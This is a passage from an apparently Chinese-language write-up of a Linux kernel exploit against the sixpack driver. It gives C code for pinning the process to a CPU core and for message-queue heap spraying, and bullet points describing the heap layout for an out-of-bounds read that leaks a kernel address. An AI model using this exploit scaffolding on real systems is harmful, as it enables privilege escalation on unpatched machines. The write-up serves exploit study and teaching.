 ```c

    pid = getpid();

    printf("[*] Assigning process %d to core %d\n", pid, core_id);

    CPU_ZERO(&mask);
    CPU_SET(core_id, &mask);

    if (sched_setaffinity(getpid(), sizeof(mask), &mask) < 0) // [2]
    {
        perror("[X] sched_setaffinity()");
        exit(1);
    }

    print_affinity();
}

[...]

assign_to_core(0); // [1]
prepare_exploit(); // [3]

[...]
```

**越界读的堆布局**：

- （1）喷射 [shm_file_data](https://elixir.bootlin.com/linux/v5.13.12/source/ipc/shm.c#L74) 结构占据`kmalloc-32` （调用[shmget()](https://linux.die.net/man/2/shmget)分配共享内存，调用 [shmat()](https://linux.die.net/man/2/shmat) 附加到调用进程的地址空间），便于泄露 [init_ipc_ns](https://elixir.bootlin.com/linux/v5.13.12/source/include/linux/ipc_namespace.h#L75) 内核地址；

- （2）接着分配 `N_MSG`（本exp中为7）个消息队列—`[2]`，每个消息队列发送0xfe8字节的消息（0xfd0字节`msg_msg`消息和0x18字节的`msg_msgseg`消息）—`[3]`，将分配`kmalloc-4096`大小的`msg_msg` 和 `kmalloc-32` 大小的 `msg_msgseg`；

- （3）再调用 `msgrcv()` 释放一个消息—`[4]`；

- （4）初始化 sixpack channel，分配一个`kmalloc-4096` 大小的 `net_device` 结构和 `sixpack` 结构。

```c
void alloc_msg_queue_A(int id)
{
    if ((qid_A[id] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
    {
        perror("[X] msgget");
        exit(1);
    }
}


void send_msg(int qid, int size, int type, int c)
{
    struct msgbuf
    {
        long mtype;
        char mtext[size - 0x30];
    } msg;

    msg.mtype = type;
    memset(msg.mtext, c, sizeof(msg.mtext));

    if (msgsnd(qid, &msg, sizeof(msg.mtext), 0) == -1)
    {
        perror("[X] msgsnd");
        exit(1);
    }
```